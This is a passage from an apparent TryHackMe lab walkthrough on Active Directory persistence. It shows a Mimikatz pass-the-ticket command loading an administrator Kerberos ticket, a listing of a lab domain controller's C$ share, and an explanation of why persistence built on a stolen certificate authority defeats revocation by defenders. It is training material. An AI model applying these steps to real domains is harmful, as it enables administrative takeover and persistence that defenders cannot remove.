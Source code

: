 Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```shell-session
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye! 

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

## We Are No Longer Friends With The Blue Team

Certificate persistence is significantly harder to defend against. Even if you rotate the credentials of the compromised account, the certificate will still be valid. The only way to remove the persistence is to issue a revocation of the certificate. However, this would only be possible if we generated the certificate through legitimate channels. Since we exported the CA and generated the certificate ourselves, it does not appear on AD CS's list of issued certificates, meaning the blue team will not be able to revoke our certificate.

So what's the only solution to remove the persistence? Well, this is why we are no longer friends. They will have to revoke the root CA certificate. But revoking this certificate means that all certificates issued by AD CS would all of a sudden be invalid. Meaning they will have to generate a new certificate for every system that uses AD CS. You should start to see why this type of persistence is incredibly dangerous and would require full rebuilds of systems if performed.
